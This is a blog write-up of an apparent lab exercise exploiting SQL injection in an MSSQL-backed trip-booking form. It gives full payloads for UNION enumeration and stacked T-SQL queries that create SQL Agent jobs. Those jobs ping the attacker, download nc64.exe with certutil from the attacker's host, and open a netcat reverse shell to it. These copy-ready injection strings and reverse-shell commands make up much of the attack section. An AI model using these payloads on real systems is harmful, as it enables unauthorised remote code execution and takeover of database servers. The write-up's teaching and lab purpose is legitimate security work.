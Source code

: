 ```yaml
---
title: Manual SQLi On MSSQL [ Creating Jobs With Mssql ]
author: r0b0tG4nG
date: 2021-12-17 13:18:00 +0000
categories: [Blogging, Exploiting, Web Applications]
tags: [writeups, sqli, sql injection, burpsuite, shell, xp_cmdshell]
math: true
mermaid: true
---
```


![image](sqli general)

**> Information Gathering**<br>

SQL injection aka `SQLi` is a `web security vulnerability` that allows an attacker to interfere with the queries that an application makes to its database. It generally allows an attacker to view data that they are not normally able to retrieve. This might include data belonging to other users, or any other data that the application itself is able to access. In many cases, an attacker can modify or delete this data, causing persistent changes to the application's content or behavior.  More information on <a href="https://portswigger.net/web-security/sql-injection"> PortSwigger</a>
 
On port 80, we can see a amazing web application that's meant for booking trips. It's safe to assume that this is a travel agent website where one can book a destination to a desired location. The target website appears to have static webpages execpt the `book-trip.php` page. On this page we are presented with a login form which has 3 fields. `1. Destination`, `2. Adults` & `3. Children`.<br>
![image](book page)<br>

In `SQLi`, there are few characters that are capable of triggering an error in a database. These characters are `*, ', " & a few others`. In this engagement, we will use a single `'` quote to test all fields. It's always best to test one field at a time, so let's put single quote `'` in the `destination field` and capture the request in burpsuite for further testing.<br>
![image](burpsuite)<br>

Pushing the request to `burpsuite forwarder`, and sending the request again, we were able to trigger a `sql error`. From the response in burpsuite, the error displayed is `Message: [Microsoft][ODBC Driver 17 for SQL Server][SQL Server]Unclosed quotation mark after the character string ''.` & `Message: [Microsoft][ODBC Driver 17 for SQL Server][SQL Server]Incorrect syntax near ''.`<br>
![image](error)<br>

The `destination field` is vulnerable to sql injection. To further exploit this vulnerability, we need to find the number of columns on the target. In `SQL`, the query `Order by` is used to sort the `result-set` in `ascending or descending order.`. To accomplish this, we will modify the data in our request `destination='+order+by+1+--&adults=1&children=1`. Note: we will keep increasing the values till we find the right columns on the target.<br>
![image](columns)<br>

The target database has `5 columns` which can be confirmed from the image above. The reason for performing an SQL injection UNION attack is to be able to retrieve the results from an injected query. Generally, the interesting data that you want to retrieve will be in string form, we need to find one or more columns in the original query results whose data type is, or is compatible with, string data. To test this, we will modify our data `destination='+UNION+SELECT+'a',2,3,4,5+--&adults=1&children=1`.  We will keep testing until the `alphabets` we submited appears in the webapp response.<br>
![image](query)<br>

We found the relevant columns that are suitable for retrieving string data. We have all that we need now the next step is to start extracting information from the database. For starters, let's start with the version of SQL server running on the target. We can achieve this using `destination='+UNION+SELECT+1,'a',(SELECT+@@version),3,4+--&adults=1&children=1`<br>
![image](version)<br>

We can further enumerate the target database to retrieve information but it's unfortunate i won't dive deep into that. For more infortaion on how to enumerate the database manually, you can check at <a href="https://perspectiverisk.com/mssql-practical-injection-cheat-sheet/">perspectiverisk</a>. For now, let's focus on to enable `xp_cmdshell` on the target.<br>

After trying for sometime to enable `xp_cmdshell` manually, i hit a dead-end. I tried all that i know and also followed the steps on both <a href="https://www.mssqltips.com/sqlservertip/1020/enabling-xpcmdshell-in-sql-server/">mssqltips</a> & <a href="https://medium.com/@notsoshant/a-not-so-blind-rce-with-sql-injection-13838026331e">medium.com</a> as well as few others, i failed. I decided to use the automatic method since i know the injection point, its easier to do it with `sqlmap`.<br>
![image](sqlmap)<br>

Using `sqlmap` didn't do any good. I tried bypassing this feature with some few `sqlmap arguments` but i still failed. Looking at the screenshot above, sqlmap presented us with this error<br> 
```shell
[02:00:34] [WARNING] xp_cmdshell creation failed, probably because sp_OACreate is disabled
[02:00:34] [CRITICAL] unable to proceed without xp_cmdshell
```
<br>

**> Creating MSSQL Jobs Through SQLi**<br>

The question is "how do we do this?? is it even possible??"??  The answer is *YES* it is possbile haev you heard about `T-SQL`??
`T-SQL (Transact-SQL)` is a set of programming extensions from `Sybase and Microsoft`that add several features to the Structured Query Language (SQL), including transaction control, exception and error handling, row processing and declared variables.

`T-SQL identifiers`, meanwhile, are used in all databases, servers, and database objects in SQL Server. These include the following t`ables, constraints, stored procedures, views, columns and data types`. T-SQL identifiers must each have a `unique name, are assigned when an object is created and are used to identify an object`.<br>

With this information, i looked deeper into assigning `T-SQL identifiers` on MSSQL which lead to <a href="https://docs.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/sp-add-jobserver-transact-sql?view=sql-server-ver15">microsoft T-SQL</a> documentation.<br>

To successfully create a `job` in MSSQL using `T-SQL`, we need two important arguments. These arguments are `[ @job_id = ] job_id` or `[ @job_name = ] 'job_name'` & `[ @server_name = ] 'server`. <br>

> Note: Either job_id or job_name must be specified, but both cannot be specified.

<br>

We have all the information we need but another issue pops up. What's the issue?? how do i create this without any error?? i googled for samples of `T-SQL Jobs` and i came accross this website <a href="https://www.mssqltips.com/sqlservertip/3052/simple-way-to-create-a-sql-server-job-using-tsql/">mssqltips</a> which clearly defines a fully functional `T-SQL job`. From the sample on this website, i crafted a `T-SQL query` to test if i can ping my ipaddress  .<br>
```shell
';EXECUTE AS LOGIN = 'daedalus_admin';USE msdb;EXEC sp_delete_job @job_name = N'testping';EXEC dbo.sp_add_job @job_name = N'testping';EXEC sp_add_jobstep @job_name = N'testping', @step_name = N'ping', @subsystem = N'cmdexec', @command = N'c:\windows\system32\cmd.exe /c ping -n 10 10.10.15.25', @retry_attempts = 1, @retry_interval = 5, @proxy_id=1;EXEC dbo.sp_add_jobserver @job_name = N'testping';EXEC dbo.sp_start_job N'testping';--
```
<br>

To identify ping requests, we have to start `tcpdump` on my attacker machine to filter `icmp` on ipaddress of our network interface. We can achieve this by typing `sudo tcpdump -i tun0 icmp`  in this case, i am listening on `tun0` interface. Send the `testping T-SQL` request to the target from burpsuite and i recieved a ping on my machine.<br>
![image](ping request)<br>


If we are able to execute a ping request, then we are two steps away from gaining remote code execution on the target. There are many ways to do this but i will stick to the basic 3:
> 1. Create an msfvenom payload, transfer to the target andd execute it.<br>
> 2. Transfer netcat windows binary to the target and execute that for a rev shell<br>
> 3. Use a powershell one-liner to transfer and execute your nishang-tcp-shell script<br>

I will use the second method. First grab netcat windows binary from <a href="https://github.com/int0x33/nc.exe/">int0x33 github repo</a>, then craft a new `T-SQL job` query to transfer the file from your attacking machine to the target machine.<br>
```shell
';EXECUTE AS LOGIN = 'daedalus_admin';USE msdb;EXEC sp_delete_job @job_name = N'testping';EXEC dbo.sp_add_job @job_name = N'testping';EXEC sp_add_jobstep @job_name = N'testping', @step_name = N'ping', @subsystem = N'cmdexec', @command = N'c:\\windows\\system32\\cmd.exe /c certutil -urlcache -f http://10.10.15.25/nc64.exe C:\\Windows\\temp\\nc64.exe', @retry_attempts = 1, @retry_interval = 5, @proxy_id=1;EXEC dbo.sp_add_jobserver @job_name = N'testping';EXEC dbo.sp_start_job N'testping';--
```
<br>

Start python server on the attacking machine using `python -m SimpleHTTPServer portnumber` or the py3 method `python3 -m htt.server portnumber` then put this `T-SQL` query in burpsuite and forward the request once again. It worked i got a hit from the target machine. `Nc64.exe` is transfered to `C:\\Windows\\temp\\` directory.<br>
![image](nc64.exe transfer)<br>

All we need to do now is to parse our `ipaddress` and `port number` to `nc64.exe` in order to gain a reverse connection to the target machine. As usual we have to modify our `T-SQL` query to perform this action. Once done, modify burpsuite data and send request again. <br>
```shell
';EXECUTE AS LOGIN = 'daedalus_admin';USE msdb;EXEC sp_delete_job @job_name = N'testping';EXEC dbo.sp_add_job @job_name = N'testping';EXEC sp_add_jobstep @job_name = N'testping', @step_name = N'ping', @subsystem = N'cmdexec', @command = N'C:\\Windows\\temp\\nc64.exe 10.10.15.25 445 -e cmd.exe', @retry_attempts = 1, @retry_interval = 5, @proxy_id=1;EXEC dbo.sp_add_jobserver @job_name = N'testping';EXEC dbo.sp_start_job N'testping';--
```
<br>


Whoop Whoop we got a reverse connection to the target machine. I hope you enjoyed thr ride and also discovered something new. Kindly subscribe to my <a href="https://www.youtube.com/channel/UCSY-pfwuYspZFlRsO7vBfIQ"> YouTube channel</a> for more contents<br>
![image](revserse shell). 